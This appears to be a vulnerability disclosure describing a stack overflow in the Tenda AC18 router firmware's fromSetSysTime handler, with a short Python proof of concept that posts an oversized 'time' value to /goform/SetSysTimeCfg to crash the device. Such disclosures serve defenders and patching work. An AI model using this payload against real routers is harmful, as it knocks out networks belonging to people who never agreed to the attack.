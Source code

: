## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `v8` variable receives the `v20` parameter from a POST request and is assigned to `v7~v12` by `sscanf`. However, since the user can control the input of `time`, the statement `sscanf(v20, "%[^-]-%[^-]-%[^ ] %[^:]:%[^:]:%s", v12, v11, v10, v9, v8, v7);` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `v7~v12` array, triggering this security vulnerability.

![image-20240316222103120](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222103120.png)

![image-20240316222047423](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222047423.png)

![image-20240316222026197](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316222026197.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'manual',
        'time':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316221759943](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316221759943.png)
